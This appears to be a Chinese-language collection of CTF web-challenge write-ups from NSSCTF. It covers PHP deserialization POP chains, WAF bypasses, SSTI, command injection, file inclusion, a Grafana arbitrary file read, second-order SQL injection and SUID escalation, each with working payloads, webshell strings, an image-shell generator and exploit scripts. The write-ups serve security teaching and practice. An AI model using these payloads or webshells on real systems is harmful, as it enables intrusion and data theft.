#  NSSCTF


## Web

### [NISACTF 2022]babyserialize

pop链+RCE

```php
<?php
include "waf.php";
class NISA{
  public $fun="show_me_flag";
  public $txw4ever;
  public function __wakeup()
  {
    if($this->fun=="show_me_flag"){
      hint();
    }
  }

  function __call($from,$val){
    $this->fun=$val[0];
  }

  public function __toString()
  {
    echo $this->fun;
    return " ";
  }
  public function __invoke()
  {
    checkcheck($this->txw4ever);
    @eval($this->txw4ever);
  }
}

class TianXiWei{
  public $ext;
  public $x;
  public function __wakeup()
  {
    $this->ext->nisa($this->x);
  }
}

class Ilovetxw{
  public $huang;
  public $su;

  public function __call($fun1,$arg){
    $this->huang->fun=$arg[0];
  }

  public function __toString(){
    $bb = $this->su;
    return $bb();
  }
}

class four{
  public $a="TXW4EVER";
  private $fun='abc';

  public function __set($name, $value)
  {
    $this->$name=$value;
    if ($this->fun = "sixsixsix"){
      strtolower($this->a);
    }
  }
}

if(isset($_GET['ser'])){
  @unserialize($_GET['ser']);
}else{
  highlight_file(__FILE__);
}

//func checkcheck($data){
// if(preg_match(......)){
//   die(something wrong);
// }
//}

//function hint(){
//  echo ".......";
//  die();
//}
?>
```

#### 预期解

先找漏洞点，NISA类的__invoke()方法中会调用eval方法，并将txw4ever作为参数传入，进行命令执行

怎么样才能调用NISA函数的invoke()方法呢，当尝试以调用函数的方式调用一个对象时，invoke() 方法会被自动调用。

eg:

```
<?php
class Person
{
    public function __invoke() {
        echo '这可是一个对象哦';
    }
}
$person = new Person(); 
$person();

'''
这可是一个对象哦
```

我们可以通过Ilovetxw类的__toString()方法将实例化后的NISA函数当作函数来调用，从而触发\_\_invoke()方法

再看如何触发Ilovetxw类的__toString()方法，我们需要将Ilovetxw类的对象以字符串的形式进行调用即可触发。

```php
  public function __set($name, $value)
  {
    $this->$name=$value;
    if ($this->fun = "sixsixsix"){
      strtolower($this->a);
    }
  }
```

four类的__set方法中当fun="sixsixsix"时会调用strtolower函数，改函数会将字符串转换为小写，也就是说我们如果将Ilovetxw类的对象作为参数传入，即可触发\_\_toString()方法

当调用类中不存在的变量或者不可访问的变量时会触发__set方法，我们可以找到Ilovetxw类的\_\_call方法

```php
  public function __call($fun1,$arg){
    $this->huang->fun=$arg[0];
  }
```

我们如果将four类的对象传入，由于four类的fun变量不可访问，所以可以触发__set()方法

最后我们可以通过TianXiWei类的__wakeup()方法调用Ilovetxw类的nisa方法，而Ilovetxw类中不存在这个方法，触发\_\_call()方法，这样一整条pop链就构造好了

exp:

```
<?php
class NISA{
    public $fun;
    public $txw4ever='system("ls /");';/1 system
}
class TianXiWei{
    public $ext;				//6 Ilovetxw
    public $x;
}
class Ilovetxw{
    public $huang;				//5 four
    public $su;					//2 NISA
}
class four{
    public $a;		//3 Ilovetxw
    private $fun="sixsixsix";	//4 fun="sixsixsix"
}
$a=new NISA();
$b = new Ilovetxw();
$c=new four();
$d=new TianXiWei();
$b->su = $a;
$c->a = $b;
$b->huang = $c;
$d->ext = $b;
echo urlencode(serialize($d));
?>
```

但是由于存在waf，我们没办法直接进行命令执行

php对大小写不敏感，考虑进行大小写绕过

```
<?php
class NISA{
    public $fun;
    public $txw4ever='SYSTEM("ls /");';/1 system
}
class TianXiWei{
    public $ext;				//6 Ilovetxw
    public $x;
}
class Ilovetxw{
    public $huang;				//5 four
    public $su;					//2 NISA
}
class four{
    public $a;		//3 Ilovetxw
    private $fun="sixsixsix";	//4 fun="sixsixsix"
}
$a=new NISA();
$b = new Ilovetxw();
$c=new four();
$d=new TianXiWei();
$b->su = $a;
$c->a = $b;
$b->huang = $c;
$d->ext = $b;
echo urlencode(serialize($d));
?>
```

成功执行命令，在根目录读到flag


另外通过NISA类的__wakeup()方法可以得到flag的位置在/

```
  public function __wakeup()
  {
    if($this->fun=="show_me_flag"){
      hint();
    }
  }
```



#### 非预期

```php
class NISA{
    public $txw4ever='SYSTEM("cat /f*");';
}
class Ilovetxw{
}

$a = new NISA();
$a->fun = new Ilovetxw();
$a->fun->su = $a;
$a = serialize($a);
echo $a;
```

在NISA的wakeup方法进行弱比较就可以触发tostring方法了，这样一来链子就缩短了


### [NCTF 2018]全球最大交友网站

./git泄露



```
git log
```




```
git show HEAD 02b7
```



```
diff --git a/readme.txt b/readme.txt
```



### [FSCTF 2023]ez_php2

pop链 php反序列化

```php
 <?php
highlight_file(__file__);
Class Rd{
    public $ending;
    public $cl;

    public $poc;
    public function __destruct()
    {
        echo "All matters have concluded";
        die($this->ending);
    }
    public function __call($name, $arg)
    {
        foreach ($arg as $key =>$value)
        {

            if($arg[0]['POC']=="1111")
            {
                echo "1";
                $this->cl->var1 = "system";
            }
        }
    }
}


class Poc{
    public $payload;

    public $fun;

    public function __set($name, $value)
    {
        $this->payload = $name;
        $this->fun = $value;
    }

    function getflag($paylaod)
    {
        echo "Have you genuinely accomplished what you set out to do?";
        file_get_contents($paylaod);
    }
}

class Er{
    public $symbol;
    public $Flag;

    public function __construct()
    {
        $this->symbol = True;
    }

    public function __set($name, $value)
    {
        $value($this->Flag);
    }


}

class Ha{
    public $start;
    public $start1;
    public $start2;
    public function __construct()
    {
        echo $this->start1."__construct"."</br>";
    }

    public function __destruct()
    {
        if($this->start2==="11111") {
            $this->start1->Love($this->start);
            echo "You are Good!";
        }
    }
}


if(isset($_GET['Ha_rde_r']))
{
    unserialize($_GET['Ha_rde_r']);
} else{
    die("You are Silly goose!");
}
?>

```

刚拿到这道题的时候，被POC中的getflag方法迷惑了挺久，没找到调用的方法，结合这句话"Have you genuinely accomplished what you set out to do?"可以看出这只是个烟雾弹

后面看到可以通过Rd类的__call方法触发Er类\_\_set方法实现命令执行，那就很清晰了

简单写一下链子

```
Ha.__destruct() -> Rd.__call() -> Er.__set
```

exp:

```php
<?php
Class Rd{
    public $ending;
    public $cl;
}

class Er{
    public $symbol;
    public $Flag = 'ls';
}

class Ha{
    public $start = ['POC' => '1111'];
    public $start1;
    public $start2 = "11111";
}

$a = new Rd();
$c = new Er();
$d = new Ha();
$a -> cl = $c;
$d -> start1 = $a;
echo urlencode(serialize($d));
?>
```


### [巅峰极客 2024]Encircling Game 

https://blog.csdn.net/m0_64910183/article/details/142772971

玩游戏秒了，不玩游戏更麻烦

伪造一下胜利的参数即可

payload：

```
路由：/verifyVictory.php
方法：POST
{"gameState":{"virusPosition":{"x":5,"y":5},"firewalls":[{"x": 0, "y": 0}, {"x": 1, "y": 0}, {"x": 2, "y": 0}, {"x": 3, "y": 0}, {"x": 4, "y": 0},{"x": 5, "y": 0}, {"x": 6, "y": 0}, {"x": 7, "y": 0}, {"x": 8, "y": 0}, {"x": 9, "y": 0}, {"x": 10, "y": 0}, {"x": 0, "y": 10}, {"x": 1, "y": 10}, {"x": 2, "y": 10}, {"x": 3, "y": 10}, {"x": 4, "y": 10}, {"x": 5, "y": 10}, {"x": 6, "y": 10}, {"x": 7, "y": 10}, {"x": 8, "y": 10}, {"x": 9, "y": 10}, {"x": 10, "y": 10}, {"x": 0, "y": 1}, {"x": 0, "y": 2}, {"x": 0, "y": 3}, {"x": 0, "y": 4}, {"x": 0, "y": 5}, {"x": 0, "y": 6}, {"x": 0, "y": 7}, {"x": 0, "y": 8}, {"x": 0, "y": 9}, {"x": 10, "y": 1}, {"x": 10, "y": 2}, {"x": 10, "y": 3}, {"x": 10, "y": 4}, {"x": 10, "y": 5}, {"x": 10, "y": 6}, {"x": 10, "y": 7}, {"x": 10, "y": 8}, {"x": 10, "y": 9}]},"token":"game-lab-token"}
```


### [羊城杯 2020]easycon

拿到题目先扫一下，扫到了/index.php 和 /index.php/login



访问/index.php



应该是RCE，传个参数看看



有回显，看看bbbbbbbbb.txt，得到一大串base64



猜测是base64转图片，转换后拿到flag


### [羊城杯 2020]Blackcat

拿到题目



看到有一个音频文件，下载后用010打开

在末尾找到一串代码



（中文乱码我替换成了123）

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('123');
}

$clandestine = getenv("clandestine");

if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);


$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);

if($hh !== $_POST['Black-Cat-Sheriff']){
    die('123');
}

echo exec("nc".$_POST['One-ear']);

```

分析这段代码，其实就是从环境变量中获取一个变量作为密钥，进行两次的hash_hmac加密

根据当hash_hmac() 的一个漏洞，如果传入的data是数组，就会返回错误，返回 NULL，从而绕过了我们不知道环境变量的问题

```php
<?php
$hh = hash_hmac('sha256', ';cat flag.php', null);
echo $hh;
# 04b13fc0dff07413856e54695eb6a763878cd1934c503784fe6e24b7e8cdb1b6
```

我们只需要使Black-Cat-Sheriff等于hh，即可

构造payload:

```
White-cat-monitor[]=123&One-ear=;cat flag.php&Black-Cat-Sheriff=04b13fc0dff07413856e54695eb6a763878cd1934c503784fe6e24b7e8cdb1b6
```


### [NISACTF 2022]is secret


拿到题目说找secret



根据提示应该是可以通过secret进行传参，但是会对我们传入的参数进行加密



传入123，返回了d]



当我们传入的参数过长的时候会发生报错，这里存在源码泄露



可以看到这里运用了一个RC4的加密，且我们能得到密钥，同时从return render_template_string()看出这是一道ssti

贴个大佬的脚本

```python
# RC4是一种对称加密算法，那么对密文进行再次加密就可以得到原来的明文

import base64
from urllib.parse import quote


def rc4_main(key="init_key", message="init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return crypt


def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box


def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    # print("res用于加密字符串，加密后是：%res" %res)
    cipher = "".join(res)
    print("加密后的字符串是：%s" % quote(cipher))
    # print("加密后的输出(经过编码):")
    # print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
    return str(base64.b64encode(cipher.encode('utf-8')), 'utf-8')


rc4_main("HereIsTreasure", "{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}")
```



```
.%14LG%C2%A68%0Day%C3%93%C3%A7%2C%C2%B9%C2%BE%C3%B9%C2%AA5%C2%9FG%0B%C2%88%1C%C3%9FM%08%C2%841%C2%85F%C3%85%3C%C3%B4%12%C2%B4v%C2%917%C3%8E%21%C3%A9k%C3%95%C2%9F%C3%B6R1%C3%BA%27%C3%AD%C3%BAI%7F%25%C2%A2d%7C%C2%98/M%C3%8A%C3%B1%0D%1D%C3%A6%C3%93P%C3%B4%5B%3FE3%C2%A1%06%C3%86%24
```



### [广东强网杯 2021 团队组]love_Pokemon

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';

if(!file_exists($dir)){
    mkdir($dir);
}

function DefenderBonus($Pokemon){
    if(preg_match("/'| |_|\\$|;|l|s|flag|a|t|m|r|e|j|k|n|w|i|\\\\|p|h|u|v|\\+|\\^|\`|\~|\||\"|\<|\>|\=|{|}|\!|\&|\*|\?|\(|\)/i",$Pokemon)){
        die('catch broken Pokemon! mew-_-two');
    }
    else{
        return $Pokemon;
    }

}

function ghostpokemon($Pokemon){
    if(is_array($Pokemon)){
        foreach ($Pokemon as $key => $pks) {
            $Pokemon[$key] = DefenderBonus($pks);
        }
    }
    else{
        $Pokemon = DefenderBonus($Pokemon);
    }
}

switch($_POST['myfavorite'] ?? ""){
    case 'picacu!':
        echo md5('picacu!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'bulbasaur!':
        echo md5('miaowa!').md5($_SERVER['REMOTE_ADDR']);
        $level = $_POST["levelup"] ?? "";
    if ((!preg_match('/lv100/i',$level)) && (preg_match('/lv100/i',escapeshellarg($level)))){
            echo file_get_contents('./hint.php');
        }
        break;
    case 'squirtle':
        echo md5('jienijieni!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'mewtwo':
        $dream = $_POST["dream"] ?? "";
        if(strlen($dream)>=20){
            die("So Big Pokenmon!");
        }
        ghostpokemon($dream);
        echo shell_exec($dream);
}

?>
```

这道题要拿到hint，首先要了解一下escapeshellarg函数 [escapeshellarg参数绕过和注入的问题_escapeshellcmd-CSDN博客](https://blog.csdn.net/m0_75178803/article/details/134987976)

利用escapeshellarg($level)会除去不可见字符的特性

```
myfavorite=bulbasaur!&levelup=lv%aa100
```

拿到hint，flag在/FLAG

、

接下来就是读flag了，尝试绕过waf

```
preg_match("/'| |_|\\$|;|l|s|flag|a|t|m|r|e|j|k|n|w|i|\\\\|p|h|u|v|\\+|\\^|\`|\~|\||\"|\<|\>|\=|{|}|\!|\&|\*|\?|\(|\)/i",$Pokemon
```

没有过滤字母o和d，考虑使用od来读flag

空格可以通过%09来绕过

L和A可以通过通配符绕过

payload:

```
myfavorite=mewtwo&dream=od%09/F[@-Z][@-Z]G
```



拿到一串八进制的数字

[[广东强网杯 2021 团队组\]love_Pokemon 复现详解_广东省强网杯2021-CSDN博客](https://blog.csdn.net/m0_63138919/article/details/133197606)

```python
ump = "0000000 051516 041523 043124 032573 030062 032470 033465 026471 0000020 030545 061465 032055 030060 026467 063071 030464 032455 0000040 063062 034541 032545 032066 061065 076543 000012 0000055"
 
octs = [("0o" + n) for n in  ump.split(" ") if n]
 
hexs = [int(n, 8) for n in octs]
 
result = ""
 
for n in hexs:
 
    if (len(hex(n)) > 4):
 
        swapped = hex(((n << 8) | (n >> 8)) & 0xFFFF)
 
        result += swapped[2:].zfill(4)
 
print(bytes.fromhex(result).decode())
```

大佬的解密脚本


### [NSSRound#8 Basic]MyDoor

看到传参的名字叫file，盲猜文件包含，用php伪协议读源码

```
?file=php://filter/read=convert.base64-encode/resource=index.php
```



```php
<?php
error_reporting(0);

if (isset($_GET['N_S.S'])) {
    eval($_GET['N_S.S']);
}

if(!isset($_GET['file'])) {
    header('Location:/index.php?file=');
} else {
    $file = $_GET['file'];

    if (!preg_match('/\.\.|la|data|input|glob|global|var|dict|gopher|file|http|phar|localhost|\?|\*|\~|zip|7z|compress/is', $file)) {
        include $file;
    } else {
        die('error.');
    }
}
```

拿到源码，看到eval函数

> 注意，在php中_为违规字符，要用[代替



### [天翼杯 2021]esay_eval

> 考点:php反序列化，wakeup绕过，redis提权


```php
<?php
class A{
    public $code = "";
    function __call($method,$args){
        eval($this->code);
        
    }
    function __wakeup(){
        $this->code = "";
    }
}

class B{
    function __destruct(){
        echo $this->a->a();
    }
}
if(isset($_REQUEST['poc'])){
    preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);    
    }


}else{
    highlight_file(__FILE__);
}
```

[[天翼杯 2021\]esay_eval复现-CSDN博客](https://blog.csdn.net/RABCDXB/article/details/121150885)

这题一开始是一个简单的反序列化

先简单搓一个,看看能不能RCE

```
<?php
class A{
    public $code = "system('whoami');";
}

class B{
    public $a;
}
$payload =  new B();
$payload -> a = new A();

echo serialize($payload);
```

```
O:1:"B":1:{s:1:"a";O:1:"A":1:{s:4:"code";s:17:"system('whoami');";}}
```

注意这个A类中__wakeup()函数会清空code的内容，所以我们要绕过wakeup魔术方法

```php
preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);    
    }
```

由于这里限制了对象的数量必须为一所以无法通过修改对象数量的方式进行绕过

但是我们其实也可以通过加真实属性的方法进行绕过，如下

```
O:1:"B":1:{s:1:"a";O:1:"A":1:{s:4:"code";s:17:"system('whoami');";}s:2:"ok";}
```



没回显，猜测可能是system函数被ban了，试试phpinfo()



果然是被ban了，既然没办法RCE，那尝试一下写入一句话木马用蚁剑连一下

```
O:1:"B":1:{s:1:"a";O:1:"A":1:{s:4:"code";s:16:"eval($_POST[1]);";}s:2:"ok";}
```



成功连接



发现没有权限访问其他目录，但是当前目录中存在vim泄露



看到有redis的密码，可以考虑使用redis进行提权

我们可以通过蚁剑的redis管理插件，进行ssrf，然后包含恶意so文件

恶意的so文件：[Dliv3/redis-rogue-server: Redis 4.x/5.x RCE](https://github.com/Dliv3/redis-rogue-server)



当前目录有上传权限，把so文件传上去

redis管理插件：[AntSword-Store/AS_Redis: Redis 管理](https://github.com/AntSword-Store/AS_Redis)






执行指令



```
MODULE LOAD "/var/www/html/exp.so"
system.exec "whoami"
```





拿到flag


### [NSSRound#8 Basic]MyPage

拿到题目



猜测这是文件包含

扫一下目录，扫到flag



尝试了直接通过伪协议直接写马读文件什么的都显示erro

猜测有include_once()

> php的文件包含机制是将已经包含的文件与文件的真实路径放进哈希表中，正常情况下，PHP会将用户输入的文件名进行resolve，转换成标准的绝对路径，这个转换的过程会将…/、./、软连接等都进行计算，得到一个最终的路径，再进行包含。如果软连接跳转的次数超过了某一个上限，Linux的lstat函数就会出错，导致PHP计算出的绝对路径就会包含一部分软连接的路径，也就和原始路径不相同的，即可绕过include_once限制。
>

```
/proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接

cwd 文件是一个指向当前进程运行目录的符号链接

/proc/self/cwd 返回当前文件所在目录
```

payload:

```
?file=php://filter/read=convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/cwd/flag.php
```



base64解密一下就好




### [第五空间 2021]pklovecloud

> 考点:php反序列化

```php
<?php  
include 'flag.php';
class pkshow 
{  
    function echo_name()     
    {          
        return "Pk very safe^.^";      
    }  
} 

class acp 
{   
    protected $cinder;  
    public $neutron;
    public $nova;
    function __construct() 
    {      
        $this->cinder = new pkshow;
    }  
    function __toString()      
    {          
        if (isset($this->cinder))  
            return $this->cinder->echo_name();      
    }  
}  

class ace
{    
    public $filename;     
    public $openstack;
    public $docker; 
    function echo_name()      
    {   
        $this->openstack = unserialize($this->docker);
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
        $file = "./{$this->filename}";
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "keystone lost~"; 
            }    
        }
    }  
}  

if (isset($_GET['pks']))  
{
    $logData = unserialize($_GET['pks']);
    echo $logData; 
} 
else 
{ 
    highlight_file(__file__); 
}
?>
```

### CVE-2021-43798

[CVE-2021-43798：Grafana任意文件读取漏洞-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1973276)




任意文件读取

读一下Grafana的配置文件



拿到管理员账号密码，成功登入



虽然这没什么用

只需要直接读flag就行了



### [HNCTF 2022 Week1]Challenge__rce

> 考点：自增RCE

拿到题目一片空白



查看源代码



随便传个参就能拿到源码

```php
<?php
error_reporting(0);
if (isset($_GET['hint'])) {
    highlight_file(__FILE__);
}
if (isset($_POST['rce'])) {
    $rce = $_POST['rce'];
    if (strlen($rce) <= 120) {
        if (is_string($rce)) {
            if (!preg_match("/[!@#%^&*:'\-<?>\"\/|`a-zA-Z~\\\\]/", $rce)) {
                eval($rce);
            } else {
                echo("Are you hack me?");
            }
        } else {
            echo "I want string!";
        }
    } else {
        echo "too long!";
    }
}
```

[HNCTF 2022 Week1\]Challenge__rce_nss rce-CSDN博客](https://blog.csdn.net/Jayjay___/article/details/132927786)

这题ban掉了~和^不能使用异或，那我们可以考虑自增rce

payload:

```
$_=[]._;$__=$_[1];$_=$_[0];$_++;$_1=++$_;$_++;$_++;$_++;$_++;$_=$_1.++$_.$__;$_=_.$_(71).$_(69).$_(84);$$_[1]($$_[2]);
//长度118    $_GET[1]($_GET[2])
```




### [湖湘杯 2021 final]Penetratable

> SUID提权 二次注入 目录穿越

```
二次SQL注入（Second-Order SQL Injection）是一种特殊类型的SQL注入攻击。与一般的SQL注入攻击类似，攻击者会通过输入恶意的SQL语句来执行非法操作。而二次SQL注入则是指攻击者在应用程序中注入恶意的数据，然后等待应用程序将这些数据存储在数据库中。当应用程序再次从数据库中读取这些数据时，恶意数据就会被读取出来，并执行恶意操作。例如，一个web应用程序可能会将用户输入的内容存储在数据库中，然后在后续的页面中将这些内容显示出来。如果攻击者在用户输入中注入了恶意SQL语句，那么这些语句会被存储在数据库中。当应用程序从数据库中读取这些内容并在后续的逻辑中使用时，恶意SQL语句就有可能被执行，从而导致攻击成功。
```





通过id的查询我们可以知道网站上已经有admin和root两个用户了

可以考虑二次注入

首先我尝试了通过admin'#构造闭合，但是失败了

使用admin"#成功构造闭合



二次注入成功，我们可以对admin的密码进行修改

修改后登入admin



没发现什么有用信息

https://blog.csdn.net/2301_80552914/article/details/137290020

翻看源代码

在static/req.js中可以找到一串注释掉的代码

猜测是修改admin和root密码的发包形式

```
function updatePass(){
    // let name=encodeURIComponent(Base64.encode($(".input-group>input").eq(0).val()))
    // let oldPass=$(".input-group>input").eq(1).val()?hex_md5($(".input-group>input").eq(1).val()):'';
    // let newPass=$(".input-group>input").eq(2).val()?hex_md5($(".input-group>input").eq(2).val()):'';
    // let saying=encodeURIComponent(Base64.encode($(".input-group>input").eq(3).val()))
    // $.ajax({
    //     url: '/?c=admin&m=updatePass',
    //     type: 'post',
    //     data: 'name='+name+'&newPass='+newPass+'&oldPass='+oldPass+'&saying='+saying,
    //     // async:true,
    //     dataType: 'text',
    //     success: function(data){
    //         alertHandle(data);
    //     }
    // });
}
```

尝试在admin下修改root的密码

大佬的发包脚本

```python
import base64
from hashlib import md5
import requests
url1="http://node4.anna.nssctf.cn:28848/?c=app&m=login"
name=base64.b64encode('admin'.encode('utf-8')).decode()
password = md5(b'123456').hexdigest()
pass2=md5(b'123456').hexdigest()
url2="http://node4.anna.nssctf.cn:28848/?c=admin&m=updatePass"
name2=base64.b64encode('root'.encode('utf-8')).decode()
sess=requests.session()
res1=sess.post(url=url1,data={"name":name,"pass":password});
print(res1.text)
res2=sess.post(url=url2,data={"name":name2,
                              "newPass":pass2,
                              "oldPass":password,
                              "saying":"hacker"})
print(res2.text)
```



修改成功，登入root




root多了一个文件的下载



抓了个包发现存在目录穿越





读一下我们扫到的这个phpinfo.php



```
<?php 
if(md5(@$_GET['pass_31d5df001717'])==='3fde6bb0541387e4ebdadf7c2ff31123'){@eval($_GET['cc']);} 
// hint: Checker will not detect the existence of phpinfo.php, please delete the file when fixing the vulnerability.
?>
```

尝试一下md5解码



竟然有结果

用蚁剑连一下

```
http://node4.anna.nssctf.cn:28848/phpinfo.php?pass_31d5df001717=1q2w3e&cc=eval($_POST['cmd']);
```





想要读flag，发现没权限需要提权

[浅谈linux suid提权 - 先知社区](https://xz.aliyun.com/t/12535?time__1311=GqGxuCitqWq052x%2BxCwh4mh4jr%2BKoWT4D)

```
find / -user root -perm -4000 -print 2>/dev/null
```



看到sed有root权限，尝试用sed读flag

```
sed '1p' /flag
//输出flag的第一行
```




### [GDOUCTF 2023]受不了一点

```php
<?php
error_reporting(0);
header("Content-type:text/html;charset=utf-8");
if(isset($_POST['gdou'])&&isset($_POST['ctf'])){
    $b=$_POST['ctf'];
    $a=$_POST['gdou'];
    if($_POST['gdou']!=$_POST['ctf'] && md5($a)===md5($b)){
        if(isset($_COOKIE['cookie'])){
           if ($_COOKIE['cookie']=='j0k3r'){
               if(isset($_GET['aaa']) && isset($_GET['bbb'])){
                  $aaa=$_GET['aaa'];
                  $bbb=$_GET['bbb'];
                 if($aaa==114514 && $bbb==114514 && $aaa!=$bbb){
                   $give = 'cancanwordflag';
                   $get ='hacker!';
                   if(isset($_GET['flag']) && isset($_POST['flag'])){
                         die($give);
                    }
                   if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag'){
                       die($get);
                    }
                    foreach ($_POST as $key => $value) {
                        $$key = $value;
                   }
                    foreach ($_GET as $key => $value) {
                         $$key = $$value;
                    }
                   echo $flag;
            }else{
                  echo "洗洗睡吧";
                 }
    }else{
        echo "行不行啊细狗";
        }
  }
}
else {
  echo '菜菜';
}
}else{
  echo "就这?";
}
}else{
  echo "别来沾边";
}
?>
```

payload:

```
GET ?aaa=114514a&bbb=114514&123=flag&flag=123
POST gdou[]=1&ctf[]=0
COOKIE cookie=j0k3r
```

get：123=flag&flag=123先传一个123=flag则变成->123=flag,然后传入：flag=123，变量覆盖之后就变成−>>123=flag,然后传入：flag=123，变量覆盖之后就变成−>>flag=$123(由于1=flag，所以会变成：123=flag，所以会变成：flag=$flag这样就不会把flag的值覆盖


### [MoeCTF 2021]2048

考点：js代码审计




js里面看到这个

```
http://node5.anna.nssctf.cn:25541/flag.php?score=1000000000
```

分数大于50000即可拿到flag，随便传一个较大的数即可




### [SWPUCTF 2022 新生赛]funny_php

考点：弱比较 md5绕过 PHP

```php
<?php
    session_start();
    highlight_file(__FILE__);
    if(isset($_GET['num'])){
        if(strlen($_GET['num'])<=3&&$_GET['num']>999999999){
            echo ":D";
            $_SESSION['L1'] = 1;
        }else{
            echo ":C";
        }
    }
    if(isset($_GET['str'])){
        $str = preg_replace('/NSSCTF/',"",$_GET['str']);
        if($str === "NSSCTF"){
            echo "wow";
            $_SESSION['L2'] = 1;
        }else{
            echo $str;
        }
    }
    if(isset($_POST['md5_1'])&&isset($_POST['md5_2'])){
        if($_POST['md5_1']!==$_POST['md5_2']&&md5($_POST['md5_1'])==md5($_POST['md5_2'])){
            echo "Nice!";
            if(isset($_POST['md5_1'])&&isset($_POST['md5_2'])){
                if(is_string($_POST['md5_1'])&&is_string($_POST['md5_2'])){
                    echo "yoxi!";
                    $_SESSION['L3'] = 1;
                }else{
                    echo "X(";
                }
            }
        }else{
            echo "G";
            echo $_POST['md5_1']."\n".$_POST['md5_2'];
        }
    }
    if(isset($_SESSION['L1'])&&isset($_SESSION['L2'])&&isset($_SESSION['L3'])){
        include('flag.php');
        echo $flag;
    }

    
?>
```

payload:

```
GET ?num=9e9&str=NSSNSSCTFCTF
POST md5_1=QNKCDZO&md5_2=240610708
```

第一个判断可以通过科学计数法实现

第三个判断通过0e开头的md5进行绕过


### [HDCTF 2023]SearchMaster


拿到题目有提示 BUT YOU CAN POST ME A DATA

dirsearch扫一下目录



存在composer.json泄露



说明网站使用了smarty库，猜测存在smarty模板注入

结合前面的hint，data传参测一测



payload:

```
string:{system('cat /f*')}
```



### [NSSRound#7 Team]ec_RCE

```php
<!-- A EZ RCE IN REALWORLD _ FROM CHINA.TW -->
<!-- By 探姬 -->
<?PHP
    
    if(!isset($_POST["action"]) && !isset($_POST["data"]))
        show_source(__FILE__);

    putenv('LANG=zh_TW.utf8'); 

    $action = $_POST["action"];
    $data = "'".$_POST["data"]."'";

    $output = shell_exec("/var/packages/Java8/target/j2sdk-image/bin/java -jar jar/NCHU.jar $action $data");
    echo $output;    
?>
```

直接构造闭合就出了

```
POST action=;cat /f*;&data=123
```


### [SWPUCTF 2023 秋季新生赛]ez_talk

文件上传


可以通过图片马绕过

在图片中插入一句话木马，上传时将后缀改为php



png图片马脚本

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>

//木马为<?=$_GET[0]($_POST[1]);?>
```

payload:

```
POST 1=cat /flag
GET 0=system
```


### [UUCTF 2022 新生赛]ezpop

考点：反序列化 字符串逃逸 PHP

```php
<?php
//flag in flag.php
error_reporting(0);
class UUCTF{
    public $name,$key,$basedata,$ob;
    function __construct($str){
        $this->name=$str;
    }
    function __wakeup(){
    if($this->key==="UUCTF"){
            $this->ob=unserialize(base64_decode($this->basedata));
        }
        else{
            die("oh!you should learn PHP unserialize String escape!");
        }
    }
}
class output{
    public $a;
    function __toString(){
        $this->a->rce();
    }
}
class nothing{
    public $a;
    public $b;
    public $t;
    function __wakeup(){
        $this->a="";
    }
    function __destruct(){
        $this->b=$this->t;
        die($this->a);
    }
}
class youwant{
    public $cmd;
    function rce(){
        eval($this->cmd);
    }
}
$pdata=$_POST["data"];
if(isset($pdata))
